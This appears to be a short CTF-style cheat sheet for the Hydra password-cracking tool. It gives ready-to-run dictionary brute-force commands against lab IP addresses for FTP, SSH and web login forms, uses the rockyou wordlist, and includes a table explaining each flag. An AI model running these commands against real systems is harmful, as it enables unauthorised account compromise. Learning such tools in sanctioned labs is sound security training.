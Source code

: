 # Hydra

## Description

## Installation

## Usage

## Resources

`"hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp"`

hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.226.38 ftp

<https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef>

<https://attack.mitre.org/techniques/T1210/>

<https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/>

<https://en.kali.tools/?p=220>

`hydra -l <username> -P <full path to pass> 10.10.248.5 -t 4 ssh`

`-l = username`
`-P = password list`
`-t = number of threads`

Web form: `hydra -l <username> -P <wordlist> 10.10.248.5 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

SSH: `hydra -l <username> -P <full path to pass> 10.10.248.5 -t 4 ssh`

hydra -l molly -P rockyou.txt 10.10.248.5 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

SecLists <https://github.com/danielmiessler/SecLists>

"hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.214.108 ssh"

SECTION FUNCTION
hydra Runs the hydra tool
-t 16
Number of parallel connections per target
-l [user] Points to the user who's account you're trying to compromise
-P [path to dictionary] Points to the file containing the list of possible passwords
-vV
Sets verbose mode to very verbose, shows the login+pass combination for each attempt
[machine IP] The IP address of the target machine
ssh / protocol Sets the protocol
